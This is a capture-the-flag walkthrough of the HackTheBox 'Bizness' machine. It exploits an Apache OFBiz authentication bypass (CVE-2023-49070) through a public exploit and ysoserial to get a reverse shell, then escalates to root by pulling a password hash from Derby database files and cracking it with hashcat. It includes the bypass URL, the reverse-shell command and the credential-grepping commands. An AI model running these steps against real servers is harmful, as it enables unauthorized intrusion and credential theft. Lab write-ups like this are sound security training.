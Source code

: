 ```yaml
---
title: "CTF Walkthrough: Bizness (HtB, Linux, Easy)"
---
```


## Description

This is a detailed walkthrough of "Bizness" machine on HackTheBox platform that is based on Linux operating system and categorized as "Easy"
by difficulty (in reality, HtB staff has their own understading of difficulty levels, so this one can't be defined as "Easy" in the literal sense of the word!). The machine involves exploitation of CVE-2023-49070 - "Authentication Bypass Vulnerability in Apache OfBiz".

## Reconnaissance

To discover open ports and services on the machine, a classic tool **nmap** was utilized with the following commands:
```bash
nmap 10.10.11.252 -p- # scan all sports
nmap -sV 10.10.11.252 -p 80,443,8888,35309,40953 # perform version enumeration on interesting ports
```
Below are the results of nmap enumeration:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Our ports of interest are 80 (http) and 443 (https) open. Port 8888 with SimpleHTTPServer was open by another player who already had a foothold on the system, so we will ignore it. Let's navigate to port 80 by browsing to *http://<MACHINE-IP>* (add "bizness.htb" with the IP address to resolv.conf file on your machine). The server redirects us to the HTTPs port on the machine and reveals a webpage:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/biznesssite.png" alt="">
  <figcaption></figcaption>
</figure>

If one scrolls the page down to the very end, they will find that the website is powered by **Apache OfBiz**. This will be our research vector that will prepare us for the Weaponization phase. Other Reconnaissance techniques such as subdomain enumeration, path traversal, directory bruteforcing and others led to no result.

###CVE-2023-49070

Searching for existing vulnerabilities, the eye-catching was a recent one listed under **CVE-2023-49070**. It describes an authentication bypass possible due to flawed logic in handling password change parameters in XML-RPC code. Attacks can leverage this technique to achieve Remote Code Execution on the target through Insecure Object Deserialization vulnerabilities discovered previously in Apache/Java backends.

> How CVE-2023-49070 Works
Pre-auth RCE Apache Ofbiz 18.12.09#POC:
/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
This vulnerability concerned an authentication bypass related to the deprecated XML-RPC interface in OFBiz. Specifically the logic checked for a requirePasswordChange parameter and would return requirePasswordChange even with empty or invalid credentials. This allowed the later authentication check to be skipped.

For those interested in developing a deeper understanding, you are welcome to visit the source [article][https://thesecmaster.com/fixing-authentication-bypass-vulnerabilities-in-apache-ofbiz-cve-2023-49070-cve-2023-51467/] with CVE description.

## Weaponization

Explore GitHub for available exploits that could help us achieve foothold on the system. The are several repositories available for the CVE of interest, the exploit that has worked for the author can be downloaded from [here][https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/blob/main/exploit.py]

In order to use the exploit, one has to take some time to adapt it and make it work. Firstly, it requires the use of **ysoserial**, which is a proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization. You can find the tool (filename: "ysoserial-all.jar") [here][https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar]. Place it in the <ins>same directory</ins> as the exploit downloaded previously.

Additionally, the exploit requires <ins>Java version 11</ins> to run. Install it with the following command:
```bash
sudo apt-get install openjdk-11-jre
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

Configure Java to use Java 11:
```bash
sudo update-alternatives --config java
1 # your list may have a different order, select the number that corrisponds to Java 11
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/java11config.png" alt="">
  <figcaption>Java 11 installation.</figcaption>
</figure>

It's time to strike!

## Exploitation / Foothold

* Start a reverse shell listener with Netcat on the desired port:
```bash
nc -lnvp <port>
```

* Run the prepared exploit with the "shell" option to send a reverse shell to the Netcat listener:
```bash
python3 exploit.py https://bizness.htb/ shell <ip>:<port>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/exploit.png" alt="">
  <figcaption>Running the exploit.</figcaption>
</figure>

If everything was configured and executed correctly, a reverse shell will be sent to the attacker's machine:
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/revshell.png" alt="">
  <figcaption>Foothold achieved.</figcaption>
</figure>

### User flag

Navigate to the ofbiz user $home directory and obtain the flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/userflag.png" alt="">
  <figcaption>+10 points!</figcaption>
</figure>


## Privilege Escalation

It is known that we are dealing with Apache OfBiz. By analzying its official [documentantion][https://cwiki.apache.org/confluence/display/OFBIZ/Home] as well as other resources, it is possible to discover that the default database used by the application is a Derby database. To discover its location on the system, one may execute the following command:

```bash
find / -type d -iname "derby" 2> /dev/null #Find the specified directory and redirect error output to /dev/null
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/findderby.png" alt="">
  <figcaption>Database location discovered.</figcaption>
</figure>

Navigate to */opt/ofbiz/runtime/data/derby/ofbiz/seg0* directory and discover a list of .dat database files in there. The administator password hash can be discovered by searching for the string "password=" in all files with the following command:

```bash
find *.dat | xargs grep -a -i "password="
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/passwordhash.png" alt="">
  <figcaption>Administrator password hash discovered.</figcaption>
</figure>

Unfortunately, this is <ins>NOT</ins> a straight hash to crack. The challenger has to spend time to analyze the [source code][https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java] of the application's hashing function to figure out how password hash is generated and then reverse the process.
According to the source code, the password string get converted to a hexadecimal value, then to Base64 (URL-safe) with the salt specified after the hash type. In our case, the salt is "d" in the full hash string. It is possible to obtain the required hash value to crack using CyberChef. Decode the hash value from Base64 (selecting "URL Safe" from the "Alphabet" dropdown menu), then convert it to Hex and use the rule to remove the spaces for your comfort. The process is shown on the screenshot below:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/cyberchef.png" alt="">
  <figcaption></figcaption>
</figure>

Now, it has become possible to use Hashcat to crack the final hash value that was obtained. Supply it to Hashcat in the format <hash>:<salt> with the following flags:

```bash
hashcat -a 0 -m 120 <hash>:<salt> /path/to/wordlist
#-a 0 => Dictionary attack mode
#-m 120 => SHA1 hash type
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/hashcracked.png" alt="">
  <figcaption>Password discovered.</figcaption>
</figure>

### Root flag

Use discovered password to log in as **root** on the system and get the flag:

```bash
su root
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/bizness/root.png" alt="">
  <figcaption>+20 points!</figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}

